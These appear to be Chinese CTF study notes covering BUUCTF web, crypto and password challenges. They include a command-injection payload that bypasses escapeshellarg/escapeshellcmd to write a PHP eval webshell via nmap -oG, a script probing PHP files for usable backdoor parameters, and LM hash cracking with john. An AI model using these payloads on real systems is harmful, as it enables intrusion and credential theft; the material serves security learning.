host接收到的参数:   <?php @eval($_POST["hack"]);?> -oG hack7.php

经过escapeshellarg函数处理：

host成为了  ' <?php @eval($_POST["hack"]);?> -oG hack7.php'

经过escapeshellcmd函数处理：

host成为了  ' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'

所以最后的进行的命令执行语句为：

nmap -T5 -sT -Pn --host-timeout 2 -F ' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'

```

host最后是变成了:

`' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'`

```
nmap -T5 -sT -Pn --host-timeout 2 -F ' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'Starting Nmap 7.70 ( https://nmap.org ) at 2021-05-10 06:38 UTC Nmap done: 0 IP addresses (0 hosts up) scanned in 0.73 seconds Nmap done: 0 IP addresses (0 hosts up) scanned in 0.73 seconds
```

本地再试着把这个语句放linux中执行结果，发现无效，并没有写进`hack7.php`：

```
┌──(root💀ranja)-[/opt]
└─# nmap -T5 -sT -Pn --host-timeout 2 -F ' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-10 02:38 EDT
Failed to resolve " \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.03 seconds
```

这里先后对比一下payload和payload的最终形式：

成功的：

```
输入：' <?php @eval($_POST["hack"]);?> -oG hack.php '

结果：
nmap -T5 -sT -Pn --host-timeout 2 -F ''\\'' \<\?php @eval\(\$_POST\["hack"\]\)\;\?\> -oG hack5.php '\\'''

文件内容：
# Nmap 7.70 scan initiated Mon May 10 06:21:25 2021 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oG hack5.php \ <?php @eval($_POST[hack]);?> \\
# Nmap done at Mon May 10 06:21:25 2021 -- 0 IP addresses (0 hosts up) scanned in 0.07 seconds

```

不成功的：

```
输入：  <?php @eval($_POST["hack"]);?> -oG hack.php 

结果：
nmap -T5 -sT -Pn --host-timeout 2 -F ' \<\?php @eval\(\$_POST\[\"hack\"\]\)\;\?\> -oG hack7.php'
```

在此处其实我们是白盒视角推理为什么在最初给host变量传参的时候左右两边得加单引号来让代码能够正确的执行的原因，通过比对有引号和无引号的对比下，我们其实能清楚得到为什么要加单引号的结论。

输入：```' <?php @eval($_POST["hack"]);?> -oG hack.php '```

有的人问如果看到其他题目，我们要怎么利用，我们要知道，我们的输入经过`escapeshellarg`函数后，整个输入会被一对单引号包裹。这时候我们的命令是全部都不能逃逸出来，如``-oG hack.php``这部分也会被当作字符串而不是命令的一部分。但是，因为我们在输入的两边都加上单引号，这样就能逃逸`escapeshellarg`函数包裹整个字符串的单引号了。所以，这么理解更加方便一些。

#### 总结

1. nmap的输出格式

下面这个链接里面描述的nmap的参数相对而言还是很全的

[扫描神器nmap使用教程](https://www.cnblogs.com/wjw-zm/p/11673923.html)

这里攒点几个nmap的输出命令：

```
nmap -oN result.txt 将标准输出写入到指定文件中
nmap -oX result.xml 将输入写成xml的形式
nmap -oS result.txt 将输出写成特殊符号的形式，内容跟-oN是一样的，只是字体变了而已
nmap -oG result.txt 将输出写成特殊格式
nmap -oA 将输出所有格式，有三种 .xml/ .gnmap/ .nmap
```

-oX

nmap -oX result.xml 将输入写成xml的形式，效果如下：

`nmap -sS 127.0.0.1 -oX result.xml`

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE nmaprun>
<?xml-stylesheet href="file:///usr/bin/../share/nmap/nmap.xsl" type="text/xsl"?>
<!-- Nmap 7.91 scan initiated Sun May  9 22:36:48 2021 as: nmap -sS -oX result.xml 127.0.0.1 -->
<nmaprun scanner="nmap" args="nmap -sS -oX result.xml 127.0.0.1" start="1620614208" startstr="Sun May  9 22:36:48 2021" version="7.91" xmloutputversion="1.05">
<scaninfo type="syn" protocol="tcp" numservices="1000" services="1,3-4,6-7,9,13,17,19-26,30,32-33,37,42-43,49,53,70,79-85,88-90,99-100,106,109-111,113,119,125,135,139,143-144,146,161,163,179,199,211-212,222,254-256,259,264,280,301,306,311,340,366,389,406-407,416-417,425,427,443-445,458,464-465,481,497,500,512-515,524,541,543-545,548,554-555,563,587,593,616-617,625,631,636,646,648,666-668,683,687,691,700,705,711,714,720,722,726,749,765,777,783,787,800-801,808,843,873,880,888,898,900-903,911-912,981,987,990,992-993,995,999-1002,1007,1009-1011,1021-1100,1102,1104-1108,1110-1114,1117,1119,1121-1124,1126,1130-1132,1137-1138,1141,1145,1147-1149,1151-1152,1154,1163-1166,1169,1174-1175,1183,1185-1187,1192,1198-1199,1201,1213,1216-1218,1233-1234,1236,1244,1247-1248,1259,1271-1272,1277,1287,1296,1300-1301,1309-1311,1322,1328,1334,1352,1417,1433-1434,1443,1455,1461,1494,1500-1501,1503,1521,1524,1533,1556,1580,1583,1594,1600,1641,1658,1666,1687-1688,1700,1717-1721,1723,1755,1761,1782-1783,1801,1805,1812,1839-1840,1862-1864,1875,1900,1914,1935,1947,1971-1972,1974,1984,1998-2010,2013,2020-2022,2030,2033-2035,2038,2040-2043,2045-2049,2065,2068,2099-2100,2103,2105-2107,2111,2119,2121,2126,2135,2144,2160-2161,2170,2179,2190-2191,2196,2200,2222,2251,2260,2288,2301,2323,2366,2381-2383,2393-2394,2399,2401,2492,2500,2522,2525,2557,2601-2602,2604-2605,2607-2608,2638,2701-2702,2710,2717-2718,2725,2800,2809,2811,2869,2875,2909-2910,2920,2967-2968,2998,3000-3001,3003,3005-3007,3011,3013,3017,3030-3031,3052,3071,3077,3128,3168,3211,3221,3260-3261,3268-3269,3283,3300-3301,3306,3322-3325,3333,3351,3367,3369-3372,3389-3390,3404,3476,3493,3517,3527,3546,3551,3580,3659,3689-3690,3703,3737,3766,3784,3800-3801,3809,3814,3826-3828,3851,3869,3871,3878,3880,3889,3905,3914,3918,3920,3945,3971,3986,3995,3998,4000-4006,4045,4111,4125-4126,4129,4224,4242,4279,4321,4343,4443-4446,4449,4550,4567,4662,4848,4899-4900,4998,5000-5004,5009,5030,5033,5050-5051,5054,5060-5061,5080,5087,5100-5102,5120,5190,5200,5214,5221-5222,5225-5226,5269,5280,5298,5357,5405,5414,5431-5432,5440,5500,5510,5544,5550,5555,5560,5566,5631,5633,5666,5678-5679,5718,5730,5800-5802,5810-5811,5815,5822,5825,5850,5859,5862,5877,5900-5904,5906-5907,5910-5911,5915,5922,5925,5950,5952,5959-5963,5987-5989,5998-6007,6009,6025,6059,6100-6101,6106,6112,6123,6129,6156,6346,6389,6502,6510,6543,6547,6565-6567,6580,6646,6666-6669,6689,6692,6699,6779,6788-6789,6792,6839,6881,6901,6969,7000-7002,7004,7007,7019,7025,7070,7100,7103,7106,7200-7201,7402,7435,7443,7496,7512,7625,7627,7676,7741,7777-7778,7800,7911,7920-7921,7937-7938,7999-8002,8007-8011,8021-8022,8031,8042,8045,8080-8090,8093,8099-8100,8180-8181,8192-8194,8200,8222,8254,8290-8292,8300,8333,8383,8400,8402,8443,8500,8600,8649,8651-8652,8654,8701,8800,8873,8888,8899,8994,9000-9003,9009-9011,9040,9050,9071,9080-9081,9090-9091,9099-9103,9110-9111,9200,9207,9220,9290,9415,9418,9485,9500,9502-9503,9535,9575,9593-9595,9618,9666,9876-9878,9898,9900,9917,9929,9943-9944,9968,9998-10004,10009-10010,10012,10024-10025,10082,10180,10215,10243,10566,10616-10617,10621,10626,10628-10629,10778,11110-11111,11967,12000,12174,12265,12345,13456,13722,13782-13783,14000,14238,14441-14442,15000,15002-15004,15660,15742,16000-16001,16012,16016,16018,16080,16113,16992-16993,17877,17988,18040,18101,18988,19101,19283,19315,19350,19780,19801,19842,20000,20005,20031,20221-20222,20828,21571,22939,23502,24444,24800,25734-25735,26214,27000,27352-27353,27355-27356,27715,28201,30000,30718,30951,31038,31337,32768-32785,33354,33899,34571-34573,35500,38292,40193,40911,41511,42510,44176,44442-44443,44501,45100,48080,49152-49161,49163,49165,49167,49175-49176,49400,49999-50003,50006,50300,50389,50500,50636,50800,51103,51493,52673,52822,52848,52869,54045,54328,55055-55056,55555,55600,56737-56738,57294,57797,58080,60020,60443,61532,61900,62078,63331,64623,64680,65000,65129,65389"/>
<verbose level="0"/>
<debugging level="0"/>
<host starttime="1620614208" endtime="1620614208"><status state="up" reason="localhost-response" reason_ttl="0"/>
<address addr="127.0.0.1" addrtype="ipv4"/>
<hostnames>
<hostname name="localhost" type="PTR"/>
</hostnames>
<ports><extraports state="closed" count="999">
<extrareasons reason="resets" count="999"/>
</extraports>
<port protocol="tcp" portid="9898"><state state="open" reason="syn-ack" reason_ttl="64"/><service name="monkeycom" method="table" conf="3"/></port>
</ports>
<times srtt="4" rttvar="0" to="100000"/>
</host>
<runstats><finished time="1620614208" timestr="Sun May  9 22:36:48 2021" summary="Nmap done at Sun May  9 22:36:48 2021; 1 IP address (1 host up) scanned in 0.14 seconds" elapsed="0.14" exit="success"/><hosts up="1" down="0" total="1"/>
</runstats>
</nmaprun>

```

-oN

`nmap -sS 127.0.0.1 -oN result.txt`

```
# Nmap 7.91 scan initiated Sun May  9 22:39:31 2021 as: nmap -sS -oN result.txt 127.0.0.1
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0000040s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
9898/tcp open  monkeycom

# Nmap done at Sun May  9 22:39:31 2021 -- 1 IP address (1 host up) scanned in 0.23 seconds
```

-oG

`nmap -sS 127.0.0.1 -oG result2.txt `

```
# Nmap 7.91 scan initiated Sun May  9 22:41:19 2021 as: nmap -sS -oG result2.txt 127.0.0.1
Host: 127.0.0.1 (localhost)	Status: Up
Host: 127.0.0.1 (localhost)	Ports: 9898/open/tcp//monkeycom///	Ignored State: closed (999)
# Nmap done at Sun May  9 22:41:19 2021 -- 1 IP address (1 host up) scanned in 0.33 seconds
```

nmap可以这么把内容写进一个文件里面：

`nmap '<?php phpinfo(); ?>' -oG 1.php`



2. PHP escapeshellarg()+escapeshellcmd() 之殇

[PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

[[BUUCTF 2018]Online Tool](https://blog.csdn.net/weixin_44077544/article/details/102835099)

个人感觉第二个讲这个知识点的连接更容易懂一些。对于这两个函数过滤的传参，清楚描述了，传参后，会一对单引号会完全包裹传参值，然后对传参时的单引号进行转义，再一对单引号进行包裹，来彻底字符串化单引号，避免带入单引号进行命令拼接。但是再经过第二个函数过滤后，反而会导致一个单引号逃逸出来。

这个链接说了`escapeshellarg`函数来防止注入参数，但是`escapeshellarg()`+`escapeshellcmd()`两个函数连用的话，会导致危险命令的执行

传入的参数是：`172.17.0.2' -v -d a=1`
经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。

经过escapeshellcmd处理后变成```'172.17.0.2'\\'' -v -d a=1\'```，这是因为`escapeshellcmd`对`\`以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php

最后执行的命令是```curl '172.17.0.2'\\'' -v -d a=1\'```，由于中间的``\\``被解释为`\`而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。

所以可以简化为```curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\```发起请求，POST 数据为a=1'。

本地写了`test13.php`进行测试(本地测试和题目以及WP的过滤现象不太一样，那里是会有`\`这些进行过滤，但是本地测试的时候是`^`见的多一些)：

```
<?php

$go = $_GET['go'];
print_r("Recieved GET : <br>");
var_dump($go);
print_r("<br>");
$go = escapeshellarg($go);
print_r("Escapeshellarg Handlered : <br>");
var_dump($go);
print_r("<br>");

$go = escapeshellcmd($go);
print_r("Escapeshellcmd Handlered : <br>");
var_dump($go);
print_r("<br>");

?>
```

得到的结果如下：



```
Recieved GET :
string(21) "172.17.0.2' -v -d a=1"
Escapeshellarg Handlered :
string(23) ""172.17.0.2' -v -d a=1""
Escapeshellcmd Handlered :
string(26) "^"172.17.0.2^' -v -d a=1^""

```

3. remote_addr和x_forwarded_for接收参数

remote_addr和x_forwarded_for这两个是见的比较多的，服务器获取ip用的

### [强网杯 2019]高明的黑客

[参考WP](https://blog.csdn.net/a3320315/article/details/102945940)



下载源码，看到了非常多、代码量非常大的PHP文件和代码，检查后看到里面有不少shell（其实默认的一个步骤：拿到代码可以vscode打开文件夹，然后`ctrl+shift+f`全局查找下`flag`）：



D盾扫描结果：


很多shell不能用，采测其中应该有个别shell可以使用。

WP中源代码如下：

```
# coding=utf-8

import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)  							  			#这儿设置最大的线程数
filePath = r"D:/soft/phpstudy/PHPTutorial/WWW/src/"
os.chdir(filePath)													#改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5								#设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False											 # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()												
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							#打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														#所有的$_POST
    params = {}														#所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)			#一次性请求所有的GET和POST
    req.close()												# 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:									#如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()												# 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												# 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:													#flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:															#加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

经过简单修改之后可以找到关键文件。这里因为代码没有对线程过高导致服务器拒绝连接的考虑，服务器如果有429的响应码，最好`time.sleep()`进行一下处理，另外，找到文件后最好把那个`flag==1`的结果单独写个文件啥的跳一下处理，不然夹杂其中，倒是也可以在cmd里面`ctrl+f`找到：



```
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(10)  							  			#这儿设置最大的线程数
filePath = r"F:\\AWD\\20210506-国网晋城-合聚森林公园\\bak\\www\\src"
os.chdir(filePath)													#改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5								#设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False											 # 设置连接活跃状态为False
def get_content(file):
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							#打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														#所有的$_POST
    params = {}														#所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://a38b567d-7b97-4a7e-84f4-04a5e093bf22.node3.buuoj.cn/'+file
    req = session.post(url, data=data, params=params)			#一次性请求所有的GET和POST
    if str(req.status_code) == '429':
        print("状态码429")
    print(req.status_code)
    req.close()												# 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:									#如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()												# 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												# 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:													#flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))

for i in files:															#加入多线程
   time.sleep(0.1)
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

找到flag后提交即可。这个题目还是很新颖，有意思的。考点主要是代码编写。

#### 总结

这个WP的代码很优美，学习到不少优雅的python3代码的写法。

# 20210511

### MD5

[参考WP](https://www.cnblogs.com/chrysanthemum/p/11741292.html)

```
e00cf25ad42683b3df678c61f42c6bda
```



解码出来是

```
admin1
```

所以flag是`flag{admin1}`

### Url编码

题目：

```
%66%6c%61%67%7b%61%6e%64%20%31%3d%31%7d
```

编写代码进行URL解码：

```
>>> from urllib import parse
>>> parse.unquote("%66%6c%61%67%7b%61%6e%64%20%31%3d%31%7d")
'flag{and 1=1}'
```

### 一眼就解密

题目:

```
下面的字符串解密后便能获得flag：ZmxhZ3tUSEVfRkxBR19PRl9USElTX1NUUklOR30= 注意：得到的 flag 请包上 flag{} 提交
```

编写代码：

```
>>> import base64
>>> base64.b64decode("ZmxhZ3tUSEVfRkxBR19PRl9USElTX1NUUklOR30=")
b'flag{THE_FLAG_OF_THIS_STRING}'
```

### 看我回旋踢

题目：

```
synt{5pq1004q-86n5-46q8-o720-oro5on0417r1}
```

初步判断这是个凯撒加密，丢进`CTFCrackTools`查看结果



得到结果:

```
flag{5cd1004d-86a5-46d8-b720-beb5ba0417e1}
```

### 摩丝

题目：

```
.. .-.. --- ...- . -.-- --- ..-
```

使用摩斯密码解码可获得：



注意，这个程序并不是很严谨，个别时候会出现复制进入的密文，会出现自动加空格的情况。如果遇到这种情况，需要手动删除一下空格，否则会出现解码失败、有误差的情况。

解码得到:

```
i l o v e y o u 
```



这么提交还是有点问题的

摩斯密码倒是不区分字母的大小写，这里需要注意下(很多古典密码并不区分字母的大小写形式)，如果小写不行可以试一试大写,然后flag就提交成功了。

### password

[参考WP](https://blog.csdn.net/LingDIHong/article/details/109521245)

题目:

```
姓名：张三 
生日：19900315

key格式为key{xxxxxxxxxx}
```

参考WriteUp，flag原来是一个社工式的题目：`谁会想到flag是zs加19900315呢？`

提交`key{zs19900315}`错误

提交`flag{zs19900315}`成功了，不知道为什么

### 变异凯撒

[参考WP](https://blog.csdn.net/hzq8632385/article/details/81096053)

```
加密密文：afZ_r9VYfScOeO_UL^RWUc
格式：flag{ }
```

看到`凯撒`这两个字，就默认的把他扔到CtfCrackTools中解密一下：



发现并没有合适的解密出来的字符串。回想这个字符串中出现的`_`和`^`其实在字母表中并没有，那有没有可能是常见的ascii码转码而来的呢？

密文： `afZ_r9VYfScOeO_UL^RWUc` ，看看能否与 `ctf` 或者 `flag` 对应上，

此时���现 `a:97`    `f:102`    `Z:106`
        `_:95`
而              c:99    t:116     f:102      {:123

                f:102   l:108   a:97      g:103

a→f： 移动了5   f→l：移动了6， 后面依次移动了7、8。此时按照这种移动规律，去写代码:

```
#!/usr/bin/env python
# coding:utf-8


def b_kaisa(mstr):
    j = 5
    i = 0
    lmstr = []
    for i in range(len(mstr)):
        m = ord(mstr[i])          # 将密文的第i个字母变为其ascii码值
        m = m + j                 # ascii值+j
        lmstr.append(m)           # 将递进后的ascii值存入列表lmstr[]
        i = i+1
        j = j+1
    return lmstr


if __name__ == '__main__':
    m_str = 'afZ_r9VYfScOeO_UL^RWUc'    # 密文
    lstr = []
    lstr = b_kaisa(m_str)
    print lstr
```

注：这个虽然是py2的代码，但是这个代码也能py3直接跑。直接把print写成一个函数就能跑成功。

得到：

```
[102, 108, 97, 103, 123, 67, 97, 101, 115, 97, 114, 95, 118, 97, 114, 105, 97, 116, 105, 111, 110, 125]
```

获得flag：

```
>>> for i in l1:
...     print(chr(i),end='')
...
flag{Caesar_variation}
```

### Quoted-printable

[参考WP](https://blog.csdn.net/MikeCoke/article/details/105877373)

[Quoted-printable在线解密网站](http://www.mxcz.net/tools/QuotedPrintable.aspx)

题目：

```
=E9=82=A3=E4=BD=A0=E4=B9=9F=E5=BE=88=E6=A3=92=E5=93=A6
```

解码得到：



```
那你也很棒哦
```

#### 总结

在看到题目的时候， 看到两个十六进制字节，基本上都是ASCII编码不可编码的情况，心里想，是不是其他的宽字节编码啊，好像不是英文的单个字节编码。没想到，flag的确是中文:`flag{那你也很棒哦}`

```
Quoted-printable可译为“可打印字符引用编码”，编码常用在电子邮件中，如：Content-Transfer-Encoding: quoted-printable ，它是MIME编码常见一种表示方法！ 在邮件里面我们常需要用可打印的ASCII字符 (如字母、数字与"=")表示各种编码格式下的字符！
Quoted-printable将任何8-bit字节值可编码为3个字符：一个等号"="后跟随两个十六进制数字(0–9或A–F)表示该字节的数值。
```

### Rabbit

[参考WP](https://blog.csdn.net/MikeCoke/article/details/105901861)

[Rabbit在线解密网站](http://www.jsons.cn/rabbitencrypt/)

题目：

```
U2FsdGVkX1/+ydnDPowGbjjJXhZxm2MP2AgI
```



解密得到：

```
Cute_Rabbit
```

### 篱笆墙的影子

[参考WP](https://blog.csdn.net/Georgeiweb/article/details/108938617)

题目：

```
星星还是那颗星星哟 月亮还是那个月亮 山也还是那座山哟 梁也还是那道梁 碾子是碾子 缸是缸哟 爹是爹来娘是娘 麻油灯呵还吱吱响 点的还是那么丁点亮 哦哦 注意：得到的 flag 请包上 flag{} 提交
```

文件中的内容：

```
felhaagv{ewtehtehfilnakgw}
```

因为叫藩篱墙，直接考虑栅栏加密。



直接得到flag：

```
flag{wethinkwehavetheflag}
```

### 第一次模拟考试

考试时间： 14：45 -> 16：45 
总结时间:  16:45->18:00

1.
[HCTF 2018]WarmUp

2.
[BJDCTF2020]Easy MD5

3.
[BUUCTF 2018]Online Tool
4.
[ACTF2020 新生赛]Include

5.
[极客大挑战 2019]PHP

6.
[网鼎杯 2018]Fakebook

# 20210512

### RSA

[参考WP](https://www.pianshen.com/article/55102035735/)

题干：

```
注意：得到的 flag 请 将 noxCTF 替换为 flag ，格式为 flag{} 提交。
```

题目描述:

```
在一次RSA密钥对生成中，假设p=473398607161，q=4511491，e=17
求解出d作为flag提交
```



首先：

学习RSAtool2的使用：

1.Number Base 设置为十进制

2.注意：**Public Exponent**这里要使用**16进制**的数，如果公钥e=17的话，就应该填入十六进制的11

3.给出p,q,e的话直接填入，再点击Calc.D,获得d

4.给出的是n和e的话，输入n和e，点击Factor N(分解)，得到p,q,再重复第3步就能得到d了

把d作为flag提交：`flag{125631357777427553}`

### 丢失的MD5

[参考链接](https://blog.csdn.net/MikeCoke/article/details/105903159)

```
注意：得到的 flag 请包上 flag{} 提交
```

下载文件包，看到一个脚本`md5.py`：

```
import hashlib   
for i in range(32,127):
    for j in range(32,127):
        for k in range(32,127):
            m=hashlib.md5()
            m.update('TASC'+chr(i)+'O3RJMV'+chr(j)+'WDJKX'+chr(k)+'ZM')
            des=m.hexdigest()
            if 'e9032' in des and 'da' in des and '911513' in des:
                print des
```

看了下，是一段完整的python脚本，直接试着运行了一下：

```
python .\md5.py
e9032994dabac08080091151380478a2
```

发现直接就能运行成功，这里本来以为是常见 的那种全部可打印字符四轮循环，自己写脚本爆破md5散列值。出题人心不错啊这。

### Alice与Bob

[参考WP](https://blog.csdn.net/MikeCoke/article/details/105903218)

题干：

```
密码学历史中，有两位知名的杰出人物，Alice和Bob。他们的爱情经过置换和轮加密也难以混淆，即使是没有身份认证也可以知根知底。就像在数学王国中的素数一样，孤傲又热情。下面是一个大整数:98554799767,请分解为两个素数，分解后，小的放前面，大的放后面，合成一个新的数字，进行md5的32位小写哈希，提交答案。 注意：得到的 flag 请包上 flag{} 提交
```

这个题目一看到大整数，就可以进行大素数分解。

在线分解网站：`http://tools.jb51.net/jisuanqi/factor_calc`



```
分解质因数结果为：101999*966233
```

然后合成一个新的数字：`101999966233`

提交flag： `flag{d450209323a847c8d01c6be47c81811a}`

#### 总结

分解大整数为两个素数的方法：

1. yafu(本地)

```
yafu-x64.exe factor(98554799767)
```



2. RSATools

使用工具RSATools可以直接分解大整数N得到两个素数：



3. 

??? 之后遇到分解大整数为两个素数的其他快的方法、脚本都总结到这里

### rsarsa

题干：

```
注意：得到的 flag 请包上 flag{} 提交
```

下载得到文件`题目描述.txt`：

```
Math is cool! Use the RSA algorithm to decode the secret message, c, p, q, and e are parameters for the RSA algorithm.


p =  9648423029010515676590551740010426534945737639235739800643989352039852507298491399561035009163427050370107570733633350911691280297777160200625281665378483
q =  11874843837980297032092405848653656852760910154543380907650040190704283358909208578251063047732443992230647903887510065547947313543299303261986053486569407
e =  65537
c =  83208298995174604174773590298203639360540024871256126892889661345742403314929861939100492666605647316646576486526217457006376842280869728581726746401583705899941768214138742259689334840735633553053887641847651173776251820293087212885670180367406807406765923638973161375817392737747832762751690104423869019034

Use RSA to find the secret message
```

已知两个大素数p, q , 密文 c， 可以使用工具求得私钥d的数字：



然后根据p，q得到N，然后又有密文C，密钥d，可以直接进行模余运算。本地跑脚本：

```
e = 65537
p = 9648423029010515676590551740010426534945737639235739800643989352039852507298491399561035009163427050370107570733633350911691280297777160200625281665378483
q = 11874843837980297032092405848653656852760910154543380907650040190704283358909208578251063047732443992230647903887510065547947313543299303261986053486569407
n = p*q
#密文
C = 83208298995174604174773590298203639360540024871256126892889661345742403314929861939100492666605647316646576486526217457006376842280869728581726746401583705899941768214138742259689334840735633553053887641847651173776251820293087212885670180367406807406765923638973161375817392737747832762751690104423869019034

d = 56632047571190660567520341028861194862411428416862507034762587229995138605649836960220619903456392752115943299335385163216233744624623848874235303309636393446736347238627793022725260986466957974753004129210680401432377444984195145009801967391196615524488853620232925992387563270746297909112117451398527453977

#求明文
M = pow(c,d,n)    #快速求幂取模运算
print(M)
```

直接得到结果：

```
5577446633554466577768879988
```

提交flag:`flag{5577446633554466577768879988}`

#### 总结

这个题目就是一个简单的已知p, q, e, c，即知道素数p，q，e，c。很简单，私钥是(e, N)，公钥是(d, N)。N是p和q相乘就能得到，然后运算原理其实并不复杂，就是个单边的解密。

### 大帝的密码武器

[参考WP](https://blog.csdn.net/qq_41523170/article/details/107668949)

题目中提到了`大帝`，推测是凯撒。

题干：

```
注意：得到的 flag 请包上 flag{} 提交
```

下载题目得到一个`zip`的文件名的文件，没有后缀。放到kali里面使用`file`命令打开：

```
└─# file zip          
zip: Zip archive data, at least v2.0 to extract
```

判断是zip文件后，加上后缀名之后，解压得到两个文件：

题目.txt

```
公元前一百年，在罗马出生了一位对世界影响巨大的人物，他生前是罗马三巨头之一。他率先使用了一种简单的加密函，因此这种加密方法以他的名字命名。
以下密文被解开后可以获得一个有意义的单词：FRPHEVGL
你可以用这个相同的加密向量加密附件中的密文，作为答案进行提交。
```

密文.txt

```
ComeChina
```

先看题干中说的`以下密文被解开后可以获得一个有意义的单词：FRPHEVGL`,变成了一个`security`:



偏移量为13：



那直接对```ComeChina```跑13的偏移量：得到```PbzrPuvan```



提交flag:```flag{PbzrPuvan}```

### Windows系统密码

[参考WP](https://www.cnblogs.com/junlebao/p/13828280.html)

[参考WP2](https://blog.csdn.net/MikeCoke/article/details/105903646)

解压得到文件：



pass.hash

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ctf:1002:06af9108f2e1fecf144e2e8adef09efd:a7fcb22a88038f35a8f39d503e7f0062:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:bef14eee40dffbc345eeb3f58e290d56:::
```

把文件拉到kali下面:

```
john pass.hash
john --show --format=LM pass.hash
```

解密得到:

```
┌──(root💀ranja)-[~/Desktop]
└─# john pass.hash                   
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead


Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 5 password hashes with no different salts (LM [DES 256/256 AVX2])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 557 candidates buffered for the current salt, minimum 1024 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
                 (SUPPORT_388945a0)
                 (Guest)
GOOD-LU          (ctf:1)
                 (Administrator)
CK               (ctf:2)
5g 0:00:00:00 DONE 2/3 (2021-05-11 23:28) 83.33g/s 1229Kp/s 1229Kc/s 2464KC/s 8MARTHA..T
Warning: passwords printed above might be partial
Use the "--show --format=LM" options to display all of the cracked passwords reliably
Session completed

```

提交flag:`flag{good-luck}`

#### 总结

1. 题目思路-windows的系统密码

做这个题目的时候，两个WP有两种不同的解法。

WP1使用了Kali的john工具，解密得到ctf1和ctf2的两个账户的密码，拼起来是`GOOD-LUCK`。提交flag的时候要小写。

